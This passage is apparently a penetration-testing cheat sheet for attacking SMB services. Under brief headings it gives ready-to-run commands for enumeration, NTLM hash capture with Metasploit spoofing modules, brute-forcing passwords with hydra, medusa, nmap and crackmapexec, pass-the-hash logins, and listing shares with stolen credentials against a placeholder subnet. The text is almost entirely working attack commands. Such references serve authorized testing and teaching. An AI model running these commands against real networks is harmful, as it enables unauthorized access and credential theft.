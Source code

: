 ```bash
enum4linux -a 10.10.x.x
```

### The SMB service can be started. Thus, by listening to the network, the NTLM/LM password hashes of the users on the network and the encrypted Challenge values can be collected.

```bash
msf > use auxiliary/server/capture/smb
msf > use auxiliary/spoof/nbns/nbns_response
```

### Valid users or passwords that can be logged in can be detected.

```bash
nmap -sV -p445 --script=smb-brute --script-args userdb=Usernames.list,passdb=Passwords.list,smblockout=1
msf > use auxiliary/scanner/smb/smb_login
hydra -t 2 -L Usernames.list -P Passwords.list -M IPAdresses.list -s TargetPort smb
medusa -t 2 -T 2 -U Usernames.list -P Passwords.list -H IPAdresses.list -n TargetPort -M smbnt
crackmapexec smb 10.10.x.x/24 -d secybr.local -u Usernames.list -p Passwords.list
```

### Valid login users or password hashes can be identified.

```bash
msf > use auxiliary/scanner/smb/smb_login
hydra -t 2 -L Usernames.list -P Hashes.list -M TargetIPAdresses.list -s TargetPort -m "LocalHash" smb
medusa -t 2 -T 2 -U Usernames.list -P Hashes.list -H TargetIPAdresses.list -n TargetPort -m PASS:HASH -M smbnt
crackmapexec smb 10.10.x.x/24 -d secybr.local -u Usernames.list -H Hashes.list
```

### Detailed information collection can be performed using identity information.

```bash
enum4linux -u secybr.local\\0xhav0c -p 'Password123!' -a 10.10.x.x
```

### Shares can be listed using credentials.

```bash
nmap -sV -p445 --script=smb-enum-shares --script-args smbdomain=secybr.local,smbuser=0xhav0c,smbpass='Password123!' 10.10.x.x
nmap -sV -p445 --script=smb-ls --script-args smbdomain=secybr.local,smbuser=0xhav0c,smbpass='Password123!',share=’SharedFolder’ 10.10.x.x
nmap -sV -p445 --script=smb-enum-shares,smb-ls --script-args smbdomain=secybr.local,smbuser=0xhav0c,smbpass='Password123!' 10.10.x.x
msf> use auxiliary/scanner/smb/smb_enumshares
smbclient //10.10.x.x/SharedFolder -U secybr.local\\0xhav0c
smbmap –host-file /path/to/TargetIPAddresses.list -d secybr.local -u 0xhav0c -p 'Password123!' -R
smbmap -H 10.10.x.x -R SharedFolder -A SearchingFileName
pth-smbclient -U secybr.local/0xhav0c%aad3b435b51404eeaad3b435b51404ee //10.10.x.x/SharedFolder
crackmapexec smb 10.10.x.x/24 -d secybr.local -u 0xhav0c -p 'Password123!' --shares
crackmapexec smb 10.10.x.x/24 -d secybr.local -u 0xhav0c -H '53f587baed383d5e8969457609f80a33333331a22a7e651:1b7951d1ee9e3363' --shares
```